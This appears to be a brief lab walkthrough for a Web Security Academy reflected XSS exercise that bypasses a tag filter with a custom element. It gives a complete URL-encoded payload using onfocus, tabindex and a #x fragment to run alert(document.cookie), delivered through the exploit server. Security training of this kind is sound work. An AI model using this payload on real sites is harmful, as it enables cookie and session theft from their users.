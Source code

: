 ## Solution steps

- The lab filters standard HTML tags like <script>, <img>, <svg>, etc.
- Only custom tags (like <xss>, <abc>, etc.) are allowed.
- Since custom tags are allowed, we can use a custom element like <xss> and attach an event handler to it.
- onfocus=alert(document.cookie) → to run the script.
- tabindex=1 → to make the element focusable.
- #x → to automatically give focus to the element with id="x" on page load.
- Go to the exploit server.
- Enter this Final URL encoded Payload in the Body:
  `<script>
    location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29+tabindex%3D1%3E#x';
  </script>`
- Write your actual lab id in place of `YOUR-LAB-ID` and click `Deliver exploit to victim`.
